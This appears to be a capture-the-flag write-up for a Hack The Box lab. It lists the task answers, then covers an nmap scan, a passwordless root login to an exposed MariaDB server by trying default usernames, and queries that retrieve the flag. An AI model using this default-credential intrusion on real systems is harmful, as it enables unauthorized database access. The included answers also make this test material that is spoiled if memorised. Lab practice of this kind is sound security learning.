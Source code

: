 ## 1. Questions
- Task 1
	- During our scan, which port do we find serving MySQL?
		- `3306`
- Task 2
	- What community-developed MySQL version is the target running?
		- `MariaDB`
- Task 3
	- When using the MySQL command line client, what switch do we need to use in order to specify a login username?
		- `-u`
- Task 4
	- Which username allows us to log into this MariaDB instance without providing a password?
		- `root`
- Task 5
	- In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?
		- `*`
- Task 6
	- In SQL, what symbol do we need to end each query with?
		- `;`
- Task 7
	- There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?
		- `htb`
- Submit Flag
	- Submit root flag
## 2. Tools Used
- Linux
- CLI
- nmap
- mysql
## 3. Approach
### nmap scan
- Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -T4 10.129.95.232
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```bash
<snip>
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 66
|   Capabilities flags: 63486
|   Some Capabilities: Support41Auth, Speaks41ProtocolOld, IgnoreSigpipes, Speaks41ProtocolNew, LongColumnFlag, SupportsTransactions, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ConnectWithDatabase, FoundRows, InteractiveClient, IgnoreSpaceBeforeParenthesis, ODBCClient, SupportsCompression, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: ,ZaWrYG8$Fu<hv<dcFq*
|_  Auth Plugin Name: mysql_native_password
<snip>
```
### Research common mysql credentials
- https://hackviser.com/tactics/pentesting/services/mysql#default-credentials
- https://hackviser.com/tactics/pentesting/services/mysql#common-credentials
### Test mysql server connection (passwordless)
- Test usernames
	- `root`
	- `admin`
	- `administrator`
	- `user`
	- `test`
- Successfully connected using username `root`
```bash
mysql -u root -h 10.129.95.232 -P 3306
```
### Explore databases
- Useful resources
	- https://gist.github.com/Jonasdero/b4c8a5e284e13aaf456f44f5dc60257e
```mysql
SHOW DATABASES;
```
- Result
```mysql
+--------------------+
| Database           |
+--------------------+
| htb                |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
```
### Switch to target database
- Useful resource
	- https://stackoverflow.com/questions/7002100/default-mysql-database-name#:~:text=4%20databases%20in%20MySQL
- Switch to non-standard database
```mysql
USE htb;
```
### Explore tables
- Useful resources
	- https://gist.github.com/Jonasdero/b4c8a5e284e13aaf456f44f5dc60257e
```mysql
SHOW TABLES;
```
- Result
```mysql
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
```
### Explore config table
- Useful resources
	- https://gist.github.com/Jonasdero/b4c8a5e284e13aaf456f44f5dc60257e
```mysql
SELECT * FROM config;
```
- Retrieved flag from result.
```mysql
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
|  1 | timeout               | 60s                              |
|  2 | security              | default                          |
|  3 | auto_logon            | false                            |
|  4 | max_size              | 2M                               |
|  5 | flag                  | <omitted>                        |
|  6 | enable_uploads        | false                            |
|  7 | authentication_method | radius                           |
+----+-----------------------+----------------------------------+
```
